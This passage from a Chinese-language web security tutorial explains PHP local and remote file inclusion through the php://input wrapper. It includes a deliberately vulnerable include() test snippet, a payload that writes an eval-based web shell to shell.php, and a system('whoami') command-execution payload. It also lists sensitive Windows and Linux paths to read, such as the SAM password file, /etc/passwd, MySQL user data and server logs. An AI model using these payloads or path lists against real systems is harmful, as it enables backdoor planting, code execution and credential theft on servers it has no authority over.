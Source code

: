 可以访问请求的原始数据的只读流。即可以直接读取到POST上没有经过解析的原始数据。 enctype=”multipart/form-data” 的时候 php://input 是无效的。

用法：?file=php://input 数据利用POST传过去。


写入木马
测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。

如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马。

```
<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

命令执行
条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.30）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行；

```
<?php system(`whoami`) ?>
```

## 4系统中的敏感路径

5、常见的敏感路径：
1 Windows
C:\boot.ini //查看系统版本
C:\windows\system32\inetsrv\MetaBase.xml //IIS 配置文件
C:\windows\repair\sam //存储 windows 系统初次安装的密码
C:\Program Files\mysql\my.ini //mysql 配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\windows\php.ini //php 配置信息
C:\windows\my.ini //mysql 配置文件

2 UNIX/Linux
/etc/passwd
/usr/local/app/apache2/conf/httpd.conf //apache2 默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/usr/local/app/php5/lib/php.ini //PHP 相关配置
/etc/httpd/conf/httpd.conf //apache
/etc/php5/apache2/php.ini //ubuntu 系统的默认路径

日志默认路径
(1) apache+Linux 日志默认路径
/etc/httpd/logs/access_log
或者
/var/log/httpd/access_log
